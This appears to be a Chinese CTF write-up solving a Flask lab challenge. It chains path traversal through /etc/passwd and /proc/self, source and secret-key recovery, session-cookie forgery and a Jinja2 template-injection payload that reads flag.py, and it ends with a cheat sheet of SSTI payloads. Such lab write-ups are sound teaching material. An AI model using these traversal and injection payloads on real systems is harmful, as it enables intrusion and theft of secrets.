 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_3_solved}`

## 思路
1. 访问环境，任意输入ls  
![](./images/afr3-1.png)
2. 网页将我们的输入值ls打印出来，可能存在模板注入  
![](./images/afr3-2.png)
3. 进一步进入article界面，测试flag，模板注入{{1+2}}  
![](./images/afr3-3.png)
![](./images/afr3-5.png)
![](./images/afr3-4.png)
4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值  
![](./images/afr3-6.png)
5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限  
![](./images/afr3-7.png)
6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django  
![](./images/afr3-8.png)
7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。  
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容
8. 通过阅读源码关键部分，如果`session['n1code']`不存在或者`n1code`不在session中，我们填入的表单值会作为`session['n1code']`的值。  
```python
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None 
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
        template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session[
            'n1code']
        session['n1code'] = None
        return render_template_string(template)
```  

9. 然后下列语句会将`session['n1code']`的值打印出来。  
    重点在于我们需要构造`session['n1code']`，能让`flag.py`的值被打印出来

```python
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```


10. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X92dcQ.uupVCl_MiIFwJPSj4hnJTB6D5F4 -s Drmhze6EPcv0fN_81Bj-nA
- 本session的cookie值
![](./images/afr3-9.png)
- 执行解密脚本
![](./images/afr3-10.png)


11. 然后把`{'n1code': None}`换成读文件`flag.py`的代码，加密回去
**{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}**
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*
![](./images/afr3-11.png)

12. 得到cookie值，修改网页cookie值，在表单填入任意值，完成对`session['n1code']`的修改，使得[server.py](./scripts/afr3_server.py)可以打印出`flag.py`的内容
`eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X92fSQ.KKLJgd92Ymr6a29ENijcYidV1Mk`
![](./images/afr3-12.png)
![](./images/afr3-13.png)

13. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力，一个多月前第一次做的时候就不会，现在第二次做也还是不会，不过从当时的半知半解得到flag，到现在基本了解了整道题的原理和考点
- 考察对flask、Django等web框架的cookie、session加解密知识
- 考察`../../../../../`目录穿越
- 考察目录穿越后获取信息的能力
    - `/proc/self/environ` 当前进程环境变量
    - `/proc/self/cmdline` 当前进程命令行，得到`python server.py`命令
    - `/proc/self/cwd` 当前进程工作目录，得到server.py源码，进而找出flask的cookie篡改漏洞。
- 考察SSTI(模板注入)  
  `{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}`

## SSTI常用命令
- **读取文件内容，()也可以为''**  
```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}``` 
- **获取配置**  
```{{config.items()}}```
- **自身dict**  
```{{self.__dict__}}```
- **获取当前app配置**  
```{{get_flashed_messages.__globals__['current_app'].config}}```
- **__getitem__绕过[]**  
```{{get_flashed_messages.__globals__.__getitem__('current_app').config}}```
- **url_for减少字符长度**  
```{{url_for.__globals__.__getitem__('current_app').config}} ```
